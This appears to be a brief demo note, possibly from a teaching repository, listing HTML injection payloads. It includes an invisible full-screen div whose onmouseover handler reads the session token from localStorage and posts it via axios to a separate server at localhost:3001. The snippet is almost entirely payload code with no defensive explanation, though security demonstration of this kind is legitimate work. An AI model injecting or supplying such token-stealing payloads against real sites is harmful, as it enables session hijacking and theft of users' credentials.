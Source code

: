 # Button
`<button>Click me</button>`

# On mouse over
`<div onmouseover="console.log('injetado!')" style="width:90px; height: 50px; color:transparent"> </div>`

# Request HTTP
`<div onmouseover="axios.post('http://localhost:3001/', {}, {headers:{Authorization:localStorage['token']} }).then((result)=>{})" style="width:100vw; height: 100vh; color:transparent"></div>`
